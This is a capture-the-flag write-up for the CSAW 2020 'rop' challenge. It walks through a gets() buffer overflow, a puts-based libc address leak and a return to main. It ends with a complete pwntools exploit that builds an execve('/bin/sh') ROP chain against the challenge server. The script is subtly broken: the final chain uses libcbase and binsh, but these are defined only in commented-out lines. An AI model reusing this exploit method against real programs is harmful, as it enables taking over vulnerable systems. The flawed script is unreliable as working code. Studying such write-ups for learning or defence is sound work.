

Here's the simple ROP challenge from the CSAW 2020 qualifiers.  
To start off, when we enter some input we find that the program readily segfaults.



Then using a disassembler (here I am using binaryninja, but you can use anyone you like), we find out that we're inputting into a buffer of size `0x20` using the `gets()` call.  
Since `rbp` is first to be pushed onto the stack, and the buffer size being offset from `rbp`, the total padding required is:

0x20 + 8 bytes for rbp = **40 bytes**

Since there is no win function, next thing we need is a way to pop the shell. There don't seem to be enough rop gadgets to pop a shell, and with the NX functionality enabled, it doesn't seem like we can use any shellcode.


In that case, the only thing to do is leak a libc address using the classic `puts(puts)` idea. We print out the address of puts in the GOT which should contain the address of puts in libc, by jumping to `puts@plt`.  
**Note:** We don't need to leak a code address since there is no PIE

Once we have the leak, since we know the libc version, the next problem is to run the gets call again, so that we can send in the the rop chain we generate from the libc.
To do this, we jump back to the main function, get it to repair the currently destroyed stack, and then enter in our ropchain.

The whole script is as follows.

```python
#!/usr/bin/env python3

from pwn import *

PROGNAME = "./rop"
REMOTEIP = "pwn.chal.csaw.io"
REMOTEPORT = "5016"

if args.REMOTE:
        p = remote(REMOTEIP, REMOTEPORT)
        elf = ELF(PROGNAME)
        libcelf = ELF('./libc-2.27.so')
else:
        p = process(PROGNAME)
        elf = p.elf
        libcelf = ELF('<system elf path>')
        gdb.attach(p)

# Requires 40 bytes of padding
padding = b'a' * 40

# puts address in the binary
# puts@plt
puts = 0x004004a0

# puts@got
putsGot = 0x601018

# pop rdi gadget for all the rop
popRdi = 0x0000000000400683

# Return to the main function to repair the
# destroyed stack
main = 0x004005dc

# run puts@plt with puts@got in rdi to leak a libc address
p.sendline(padding + p64(popRdi) + p64(putsGot) + p64(puts) + p64(main))

# stripping the newline
leak = p.readline()[:-1]

# the leak is only 6 bytes, with address being of the form: 0x0000<address>
libc = u64(leak + b'\x00' * 2)

# sadly the system('/bin/sh') doesn't work, possibly has been disabled
# libcbase = libc - libcelf.symbols['puts']
# libcsys = libcbase + libcelf.symbols['system']
# binsh = libcbase + next(libcelf.search(b'/bin/sh'))
# systemPayload = padding + p64(popRdi) + p64(binsh) + p64(libcsys)

# The rop chain magic
syscall = p64(libcbase + 0x00000000000d29d5)
popRsi = p64(libcbase + 0x0000000000023e8a) + p64(0)
popRdx = p64(libcbase + 0x0000000000001b96) + p64(0)
popRax = p64(libcbase + 0x0000000000043a78) + p64(59)
setBinsh = p64(popRdi) + p64(binsh)

# execve syscall
# rax: 59
# rdi: pointer to '/bin/sh\x00'
# rsi: 0
# rdx: 0
p.sendline(padding + popRsi + popRdx + popRax + setBinsh + syscall)
```
